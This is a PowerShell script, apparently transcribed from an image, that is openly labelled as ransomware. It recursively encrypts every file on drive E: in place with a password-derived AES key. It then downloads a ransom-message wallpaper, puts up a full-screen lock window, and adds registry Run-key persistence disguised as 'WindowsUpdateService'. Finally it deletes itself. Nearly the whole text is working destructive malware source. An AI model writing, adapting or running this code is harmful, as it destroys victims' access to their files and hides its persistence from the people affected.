 # Windows Volume E Encryption Script (Ultimate Ransomware Edition)
# Encrypts all files on the E: volume with maximum chaos and psychological warfare

param (
    [string]$Volume = "E:\"
)

# Prompt for Password (Encryption Only)
$Password = Read-Host "Enter your encryption password" -AsSecureString
$PasswordBytes = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($Password))

# Generate AES-256 Key from Password
$Key = [System.Security.Cryptography.Aes]::Create()
$Key.Key = (New-Object System.Security.Cryptography.Rfc2898DeriveBytes($PasswordBytes, [System.Text.Encoding]::UTF8.GetBytes("QuantumSalt"), 10000)).GetBytes(32)

function Encrypt-File {
    param (
        [string]$FilePath
    )
    try {
        # Generate a fresh IV for each file
        $IV = (New-Object byte[] 16)
        (New-Object System.Security.Cryptography.RNGCryptoServiceProvider).GetBytes($IV)
        $Key.IV = $IV

        $FileBytes = [System.IO.File]::ReadAllBytes($FilePath)
        $Encryptor = $Key.CreateEncryptor()
        $EncryptedBytes = $Encryptor.TransformFinalBlock($FileBytes, 0, $FileBytes.Length)
        
        # Prepend the IV to the encrypted file for later decryption
        $FinalBytes = $IV + $EncryptedBytes
        [System.IO.File]::WriteAllBytes($FilePath, $FinalBytes)
        Write-Host "Encrypted: $FilePath"
    } catch {
        Write-Host "Failed to encrypt: $FilePath ($_)."
    }
}

# Encrypt All Files
Get-ChildItem -Path $Volume -Recurse -File | ForEach-Object {
    Encrypt-File $_.FullName
}

Write-Host "Volume E: Encryption Complete!"

# Set Ransom Wallpaper
$WallpaperPath = "$env:TEMP\\RansomWallpaper.jpg"
Invoke-WebRequest -Uri "https://via.placeholder.com/1920x1080/000000/FFFFFF/?text=YOUR+FILES+HAVE+BEEN+ENCRYPTED" -OutFile $WallpaperPath
Add-Type -TypeDefinition @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@
[Wallpaper]::SystemParametersInfo(20, 0, $WallpaperPath, 1)

# Create Aggressive Lock Screen
Add-Type -AssemblyName PresentationFramework
$Window = New-Object System.Windows.Window
$Window.WindowStyle = 'None'
$Window.WindowState = 'Maximized'
$Window.Topmost = $true
$Window.Background = 'Black'
$Window.Content = "YOUR FILES HAVE BEEN ENCRYPTED!"
$Window.Foreground = 'Red'
$Window.FontSize = 72
$Window.FontFamily = 'Consolas'

# Persistence Setup (Registry Key)
$ScriptPath = $PSCommandPath
$RegPath = "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
Set-ItemProperty -Path $RegPath -Name "WindowsUpdateService" -Value $ScriptPath

# Add Glitch Effect
$Timer = [System.Windows.Threading.DispatcherTimer]::new()
$Timer.Interval = [System.TimeSpan]::FromMilliseconds(200)
$Timer.Add_Tick({
    $Window.FontSize = Get-Random -Minimum 50 -Maximum 100
    $Window.Foreground = [System.Windows.Media.Brushes]::FromArgb((Get-Random -Minimum 100 -Maximum 255), (Get-Random -Minimum 0 -Maximum 255), (Get-Random -Minimum 0 -Maximum 255), (Get-Random -Minimum 0 -Maximum 255))
    $Window.Topmost = $true
})
$Timer.Start()

# Unlock with Ctrl + Shift + Q
$Window.KeyDown.Add({
    param($sender, $e)
    if ($e.KeyboardDevice.Modifiers -eq 'Control' -and $e.Key -eq 'Q') {
        if ([System.Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::LeftShift) -or [System.Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::RightShift)) {
            $Timer.Stop()
            $Window.Close()
            Write-Host "Lock Screen Bypassed!"
            Remove-ItemProperty -Path $RegPath -Name "WindowsUpdateService" -Force  # Remove persistence
        }
    }
})

$Window.ShowDialog()

# Self-Destruct
Remove-Item $PSCommandPath -Force
Write-Host "Ransomware script has self-destructed."

